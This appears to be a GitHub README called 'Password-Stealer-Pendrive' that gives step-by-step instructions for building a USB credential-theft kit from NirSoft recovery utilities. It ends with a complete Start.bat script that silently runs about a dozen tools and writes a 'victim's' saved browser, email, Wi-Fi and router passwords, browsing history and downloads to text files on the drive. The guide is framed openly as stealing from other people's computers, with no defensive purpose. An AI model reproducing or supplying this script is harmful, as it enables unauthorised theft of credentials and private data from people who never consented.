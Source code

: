 # Password-Stealer-Pendrive


By using this process you can get the victims
      Browser Downloads
      Browser History
      Browser Saved Passwords


First of all go to this link https://www.nirsoft.net/password_recovery_tools.html


Then read the instructions and download those softwares
Then extract the .zip file and only save the extraxted files in your pendrive


Then delete:

      Dailupass.exe
      netpass.exe
      x64 (folder)
      
      
      
Then download:

      https://www.nirsoft.net/utils/browsing_history_view.html
      https://www.nirsoft.net/utils/web_browser_downloads_view.html
      https://www.nirsoft.net/utils/process_tcp_summary.html
      https://www.nirsoft.net/utils/router_password_recovery.html
    
Your pendrive will look like this after downloading all the above files:

https://i.imgur.com/sbzTDM1.png



Finally, Create a folder named  Passwords

then create a file named  Start.bat 

Open Start.bat with notepad

Finally paste the code below:
      start BrowserDownloadsView.exe /stext Passwords\BrowserDownloads.txt
      start BrowsingHistoryView.exe /stext Passwords\BrowsingHistory.txt
      start ChromePass.exe /stext Passwords\ChromePass.txt
      start iepv.exe /stext Passwords\iepv.txt
      start mailpv.exe /stext Passwords\mailpv.txt
      start mspass.exe /stext Passwords\mspass.txt
      start PasswordFox.exe /stext Passwords\PasswordFox.txt
      start ProcessTCPSummary.exe /stext Passwords\ProcessTCPSummary.txt
      start PstPassword.exe /stext Passwords\PstPassword.txt
      start RouterPassView.exe /stext Passwords\RouterPassView.txt
      start WebBrowserPassView.exe /stext Passwords\WebBrowserPass.txt
      start WifiHistoryView.exe /stext Passwords\WifiHistoryView.txt
